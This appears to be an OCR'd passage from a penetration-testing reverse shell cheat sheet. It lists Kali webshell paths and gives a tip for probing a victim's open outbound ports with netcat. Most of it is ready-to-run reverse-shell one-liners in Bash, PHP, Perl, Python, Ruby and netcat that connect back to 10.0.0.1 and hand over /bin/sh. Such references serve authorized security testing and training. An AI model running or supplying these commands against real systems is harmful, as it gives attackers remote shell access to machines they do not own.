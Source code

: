Classic ASP Reverse Shell + CMD shells:

COMMAND

DESCRIPTION

`/usr/share/webshells/asp/`

Kali ASP Shells

### Kali ASPX Shells[](https://highon.coffee/blog/reverse-shell-cheat-sheet/#kali-aspx-shells)

ASP.NET reverse shells within Kali:

COMMAND

DESCRIPTION

`/usr/share/webshells/aspx/`

Kali ASPX Shells

### Kali JSP Reverse Shell[](https://highon.coffee/blog/reverse-shell-cheat-sheet/#kali-jsp-reverse-shell)

Kali JSP Reverse Shell:

COMMAND

DESCRIPTION

`/usr/share/webshells/jsp/jsp-reverse.jsp`

Kali JSP Reverse Shell

# Revser shell

**1. Check which port is allowed for reverse shell**

```
sometime certain out going traffic is blocked by your victim   
nc -nvv -w 1 -z "Your IP Address" 1-100  
open Wireshark  
```

**2. Reverse shell list**

```
Bash  
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

Php  
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'

Perl  
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

Python  
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

Ruby  
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

Netcat  
nc -e /bin/sh 10.0.0.1 1234
```